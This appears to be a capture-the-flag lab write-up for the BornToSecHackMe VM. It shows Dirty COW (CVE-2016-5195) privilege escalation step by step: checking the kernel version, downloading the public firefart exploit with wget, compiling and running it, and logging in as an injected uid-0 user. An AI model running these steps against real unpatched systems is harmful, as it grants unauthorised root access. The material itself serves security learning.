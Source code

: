 ## DIRTY COW

This method consists of using the dirty cow exploit (CVE-2016-5195) which is a privilege escalation vulnerability in the Linux Kernel based on a race condition, we can see [here](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions) that it was patched ubuntu 12.04 in kernel version 3.2.0-113.155 and above.

```console
laurie@BornToSecHackMe:~$ uname -r
3.2.0-91-generic-pae
```

since our kernel version is older that means it should work for us. This exploit uses a race condition to let us write into any file even with no permissions, we can do privilege escalation here by adding a user with uid of 0 so it has all the root permission and then we log with the newly created user.
*firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash*

First, let's get the exploit code from github using wget (we will use the firefart version):

```console
laurie@BornToSecHackMe:~$ wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
```

then we compile the c file the execute it

```console
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty
```

voila, now we can log in the firefart using su firefart and we'll get all root permissions